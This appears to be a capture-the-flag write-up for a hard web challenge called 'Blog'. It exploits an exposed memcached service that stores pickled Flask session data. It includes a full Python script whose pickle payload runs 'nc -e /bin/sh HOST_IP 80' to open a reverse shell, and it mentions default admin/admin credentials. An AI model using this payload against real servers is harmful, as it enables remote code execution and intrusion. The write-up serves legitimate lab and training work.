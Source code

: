 ### Challenge Name : Blog
### Challenge Type : Web
### Challenge Diificulty : Hard

## Build
> docker build -t blog .

## Run
> docker run -it -d -p 9999:5000 -p 11211:11211 blog:latest

## Write Up
---
### Scanning

<img width="570" alt="CleanShot 2021-10-21 at 16 15 43" src="https://user-images.githubusercontent.com/49064045/138350489-a99d0896-c1e6-4b10-af0d-d3f87589a949.png">

### Observations

-   We see port 5000 running some default flask application.

-   Now it is clear that we are dealing with a webserver which is run on python.

-   Running directory buster tools we get `/login` page, and the webapp is using default credentials like `admin` and `admin` 

-   Now onto port 11211 which is a memcache service, which caches some stuff required by the application in the form of Key:Value pairs, so the webpage can kind of load faster.

### Exploit

-   So we use python to build a script, which will do the enumeration for us.

-   Bottom line being the exploit is basically, memcache stores serialized data, so it uses pickle.load() to unserialize it at the backend.
    
-   So we can send our payload in a serialized format and that should give us a reverse shell
    
-   First we have to enumerate the kind of stuff that gets stored in the memcache, We can list all the keys stored in memcache with the help of.
    
    -   [https://github.com/dlrust/python-memcached-stats](https://github.com/dlrust/python-memcached-stats)
-   So we develop the following script
    
    ```python
    import pylibmc
    from memcached_stats import MemcachedStats
    memcache = MemcachedStats(SERVER_IP,'11211')
    mc = pylibmc.Client([SERVER_IP], binary=True)
    def enumerate_keys():
        for i in memcache.keys():
            print "Key Value:", i
            print "Key Content:", mc.get(i), ""
    enumerate_keys()
    ```
    
-   Initially we get nothing  
    
    -   This is because there is nothing which is cached when the box spins up.
    -   So we visit port 5000, and then check this again.  
        
        ![image](https://user-images.githubusercontent.com/49064045/138350649-ff35aad7-5ec1-4c4d-b4ee-20d21c739763.png)
        
    -   So this means that the session token is being serialized and stored in the cache, so all we have to do is change this serialized payload to the serialized payload where we run system commands using python
-   This is how our final payload looks like.
    
    ```python
    import pylibmc
    from memcached_stats import MemcachedStats
    import subprocess
    import sys
    
    class rce(object):
        def __reduce__(self):
            return (subprocess.Popen, (('/bin/sh','-c','nc -e /bin/sh HOST_IP 80'),))
    
    memcache = MemcachedStats(SERVER_IP,'11211')
    mc = pylibmc.Client([SERVER_IP], binary=True)
    
    def keys_enum():
        for i in memcache.keys():
            print "Key Value:", i
            print "Key Content:", mc.get(i), ""
    
    def set_payload(payload):
        for i in memcache.keys():
            print i
            if "session" in i:
                print "Found a session key Sending Reverse shell payload"
                if mc.set(i, payload) is True:
                    print "Payload set successfully"
                else:
                    print "Error setting payload"
                    sys.exit()
    
    print "Initial Key value before epxloit"
    keys_enum()
    print "Exploiting"
    set_payload(rce())
    ```
    
-   We start our netcat listener and then run this script, Once the script completes execution, we just have to referesh the port 5000 webpage, and that is it, we should have a reverse shell  
    
-   We will get a shell as user `user` and with that we get the `flag` file
